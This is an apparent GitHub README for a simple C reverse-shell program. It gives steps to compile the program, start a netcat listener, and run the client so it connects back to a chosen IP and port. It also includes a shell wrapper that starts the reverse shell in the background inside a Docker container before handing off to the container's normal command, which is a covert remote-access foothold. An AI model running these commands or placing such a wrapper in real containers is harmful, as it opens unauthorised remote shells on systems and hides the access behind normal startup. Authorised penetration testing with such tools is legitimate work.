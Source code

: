 # simple-reverse-shell
C program for reverse shell

## How to use?

### Compile
git clone https://github.com/vizarch/simple-reverse-shell
cd simple-reverse-shell
gcc rshell.c -o rshell

### Run
- Listener machine (use netcat)
    - nc -lp 4444

- Client machine
    - ./rshell IP PORT
        - IP - IPv4 address of listener machine
        - PORT - port above (4444)

### Example use case

Enter into Docker container (for example: AWS Fargate)
- **only for tests**
- create script wrapper for CMD
```bash
#!/bin/sh
set -m # for job control, im not sure about this line

./rshell IP PORT & # put in background

exec CMD
```
